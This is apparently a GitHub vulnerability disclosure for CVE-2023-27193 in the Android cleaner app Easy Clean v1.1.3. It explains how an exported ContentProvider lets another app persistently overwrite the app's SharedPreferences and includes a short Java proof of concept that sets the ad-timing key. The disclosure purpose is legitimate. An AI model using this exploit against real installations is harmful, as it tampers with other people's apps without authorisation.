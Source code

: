 ## Escalation of Privileges exists in Easy Clean（CVE-2023-27193）

Vendor：DUALSPACE(http://www.dualspace.com/pc/en/products.html)

Affected product：Easy Clean (com.ludashi.xsuperclean)

Version：1.1.3

Download link：https://apkpure.com/cn/space-clean-super-cleaner/com.ludashi.xsuperclean

Description of the vulnerability for use in the CVE：An issue found in DUALSPACE v.1.1.3 allows a local attacker to gain privileges via the key_ad_new_user_avoid_time field.

Additional information：The app is a mobile clean app, which can free up storage space. Upon opening, the app loads the SharedPreference files into memory and uses the data in some important functions. If a malicious app modifies important data in the SharedPreference files, the Easy Clean app will not behave properly when loading this data. This can cause security hazards, such as ad blocking (by modifying the key_ad_new_user_avoid_time field). Even worse, users cannot fix the security issue by rebooting victim devices, since the injected data is persistent in the SharedPreference files.

poc：

```java
public void attack(){
    ContentResolver contentResolver = this.getApplicationContext().getContentResolver();
    Uri uri = Uri.parse("content://com.ludashi.xsuperclean.util.pref.SharedPrefProvider");
    ContentValues contentValues = new ContentValues();
    contentValues.put("file_name","__default__");
    contentValues.put("type",4);
    contentValues.put("key","key_ad_new_user_avoid_time");
    contentValues.put("value","100000");
    contentResolver.update(uri,contentValues,null,null);
}
```



